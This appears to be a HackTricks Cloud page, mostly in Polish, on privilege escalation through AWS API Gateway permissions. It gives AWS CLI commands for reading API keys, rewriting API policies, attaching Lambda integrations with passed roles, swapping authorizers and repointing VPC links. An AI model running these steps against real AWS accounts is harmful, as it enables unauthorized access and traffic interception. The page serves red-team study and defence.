 # AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Aby uzyskać więcej informacji, sprawdź:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Dzięki temu uprawnieniu możesz generować klucze API dla skonfigurowanych API (na region).
```bash
aws --region <region> apigateway create-api-key
```
**Potencjalny wpływ:** Nie możesz uzyskać podwyższonych uprawnień za pomocą tej techniki, ale możesz uzyskać dostęp do wrażliwych informacji.

### `apigateway:GET`

Dzięki temu uprawnieniu możesz uzyskać wygenerowane klucze API skonfigurowanych API (na region).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Potencjalny wpływ:** Nie możesz uzyskać podwyższonych uprawnień za pomocą tej techniki, ale możesz uzyskać dostęp do wrażliwych informacji.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Dzięki tym uprawnieniom możliwe jest modyfikowanie polityki zasobów API, aby uzyskać dostęp do jego wywoływania i nadużywać potencjalny dostęp, jaki API gateway może mieć (na przykład wywołując podatną lambdę).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Potencjalny wpływ:** Zazwyczaj nie będziesz w stanie bezpośrednio uzyskać podwyższonych uprawnień za pomocą tej techniki, ale możesz uzyskać dostęp do wrażliwych informacji.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Wymaga testowania
{% endhint %}

Atakujący z uprawnieniami `apigateway:PutIntegration`, `apigateway:CreateDeployment` i `iam:PassRole` może **dodać nową integrację do istniejącego API Gateway REST API z funkcją Lambda, która ma przypisaną rolę IAM**. Atakujący może następnie **wywołać funkcję Lambda, aby wykonać dowolny kod i potencjalnie uzyskać dostęp do zasobów związanych z rolą IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencjalny wpływ**: Dostęp do zasobów związanych z rolą IAM funkcji Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Wymaga testowania
{% endhint %}

Napastnik z uprawnieniami `apigateway:UpdateAuthorizer` i `apigateway:CreateDeployment` może **zmodyfikować istniejącego autoryzatora API Gateway**, aby obejść kontrole bezpieczeństwa lub wykonać dowolny kod podczas składania żądań API.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencjalny wpływ**: Ominięcie kontroli bezpieczeństwa, nieautoryzowany dostęp do zasobów API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Wymaga testowania
{% endhint %}

Napastnik z uprawnieniem `apigateway:UpdateVpcLink` może **zmodyfikować istniejące połączenie VPC, aby wskazywało na inny Load Balancer, potencjalnie przekierowując prywatny ruch API do nieautoryzowanych lub złośliwych zasobów**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potencjalny wpływ**: Nieautoryzowany dostęp do prywatnych zasobów API, przechwytywanie lub zakłócanie ruchu API.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

